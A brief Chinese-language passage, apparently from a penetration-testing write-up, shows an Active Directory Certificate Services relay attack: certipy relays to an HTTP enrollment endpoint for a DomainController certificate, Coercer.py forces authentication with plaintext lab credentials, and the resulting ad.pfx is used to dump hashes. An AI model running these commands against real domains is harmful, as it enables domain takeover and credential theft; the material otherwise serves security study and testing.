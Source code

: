 ## 漏洞利用

certipy 可以直接进行监听，去申请域管的证书

```bash
certipy relay -target 'http://192.168.142.21' -template DomainController
```

[![](assets/1708508972-45a7a228c5d9526862c1a91526dc7975.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170823-99848ea0-cfcf-1.png)

使用[https://github.com/p0dalirius/Coercer强制身份认证](https://github.com/p0dalirius/Coercer%E5%BC%BA%E5%88%B6%E8%BA%AB%E4%BB%BD%E8%AE%A4%E8%AF%81)

```bash
./Coercer.py coerce -l 192.168.21.101 -t 192.168.142.21 -u 'qxn' -p 'Penson@2016 永遠的神' -d penson.org -v
```

[![](assets/1708508972-1aafc4d0c06fa7c137a46c7c3522c03b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170835-a05367e2-cfcf-1.png)  
拿 ad.pfx 证书去导 hash

[![](assets/1708508972-2e1b783256ddef47c3abf968379f1b82.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170850-a94462ca-cfcf-1.png)
